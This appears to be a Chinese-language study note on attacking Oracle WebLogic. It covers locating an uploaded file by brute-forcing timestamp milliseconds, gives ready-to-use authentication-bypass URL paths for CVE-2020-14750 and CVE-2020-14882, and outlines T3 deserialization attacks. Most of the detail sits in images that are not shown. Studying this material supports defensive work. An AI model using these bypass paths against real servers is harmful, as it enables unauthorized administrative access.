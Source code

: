 ![image-20230819143904277](..//images/image-20230819143904277.png)

将发送的时间戳进行转换：2023-08-19 06:27:55.426

服务器实际上的

![image-20230819143328926](..//images/image-20230819143328926.png)

所以毫秒处需要进行爆破

上传后的文件位置

```
/ws_utc/css/upload/RS_Upload_2023-08-19_06-27-55_[毫秒]/import_file_name_[文件名]
```

![image-20230819143749107](..//images/image-20230819143749107.png)



## 身份校验绕过

```bash
# CVE-2020-14750
/console/images/%252E./console.portal
/console/css/%252E./console.portal

# CVE-2020-14882
/console/css/%252e%252e%252fconsole.portal
/console/images/%252e%252e%252fconsole.portal
```





## 反序列化漏洞

[Weblogic漏洞学习：T3反序列化 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10365)

[Weblogic Xmldecoder反序列化中的命令回显与内存马总结 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10323)

- 直接通过T3协议发送恶意反序列化对象
- 利用T3协议/IIOP协议配合RMP或ND接口反向发送反序列化数据
- 通过 javabean XML方式发送反序列化数据。

### T3协议数据包

> 第二到第七部分内容，开头都是`ac ed 00 05`，说明这些都是序列化的数据。只要把其中一部分替换成我们的序列化数据就可以了

![img](../../../images/WcnkRK.png)

![img](../../../images/WcnYLQ.jpg)

### Payload数据包

![img](../../../images/Wcm5rQ.png)
